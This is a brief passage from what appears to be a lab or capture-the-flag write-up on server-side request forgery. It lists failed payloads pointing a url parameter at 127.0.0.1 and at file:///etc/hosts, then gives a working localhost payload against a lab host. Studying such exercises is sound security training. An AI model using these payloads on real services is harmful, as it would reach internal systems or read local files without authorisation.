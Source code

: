 #### 3.1. SSRF 2

Failed attempts:
```
$target/?url=http://127.0.0.1:1234 (Invalid URL)
$target/?url=file:///etc/hosts (Invalid URL)
```

Solution:
```
http://ptl-2769b50a-2eceee67.libcurl.so/?url=http://localhost:1234
```
